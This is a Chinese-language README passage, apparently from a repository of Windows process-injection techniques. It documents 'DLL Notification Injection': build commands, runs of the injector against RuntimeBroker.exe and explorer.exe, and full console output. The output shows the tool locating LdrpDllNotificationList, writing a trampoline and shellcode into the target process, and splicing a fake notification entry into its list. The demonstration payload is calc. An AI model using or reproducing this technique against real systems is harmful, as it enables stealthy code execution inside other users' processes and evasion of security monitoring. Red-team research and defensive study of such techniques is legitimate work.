 1. **编译程序**
```bash
cd techniques/25-dll-notification-injection
./build.bat
# Build successful!
# Output: build\dll_notification_injection.exe
```

2. **执行注入（RuntimeBroker 测试）**
```bash
./build/dll_notification_injection.exe RuntimeBroker.exe
```

**结果**: 注入成功但未触发（等待 5 秒无 calc）

3. **执行注入（Explorer 测试）**
```bash
./build/dll_notification_injection.exe explorer.exe
```

### 完整输出（Explorer）

```
======================================
  DLL Notification Injection
======================================

[1] 获取 LdrpDllNotificationList 头地址
[+] 成功注册虚拟回调
[+] 找到 LdrpDllNotificationList 头地址：0x00007FFB4052E8C0
[+] 成功注销虚拟回调

[2] 打开目标进程
[+] 找到目标进程 PID：130508
[+] 成功打开进程

[3] 远程 DLL 通知链表（注入前）

[*] 远程 DLL 通知链表：
    0x00007FFB4052E8C0 -> 0x00007FFB405360D0

[4] 分配内存并写入载荷
    [+] Trampoline 地址：0x00000000017C0000
    [+] Restore 地址：0x00000000017C020F
    [+] Shellcode 地址：0x00000000017C0245
    [+] 已修改 Trampoline 中的 Restore 地址占位符
    [+] Trampoline 和 Shellcode 已写入远程进程

[5] 创建新的 DLL 通知条目
    [+] 新条目地址：0x0000000004010000
    [+] 新条目已写入远程进程

[6] 准备 Restore Prologue
    [+] Restore Prologue 已写入远程进程

[7] 修改链表指针
    [+] 链表已修改，新条目已插入

[8] 远程 DLL 通知链表（注入后）

[*] 远程 DLL 通知链表：
    0x00007FFB4052E8C0 -> 0x00007FFB405360D0
    0x0000000004010000 -> 0x00000000017C0000

[+] DLL Notification Injection 完成！
[*] 等待目标进程加载/卸载 DLL 时自动触发...
```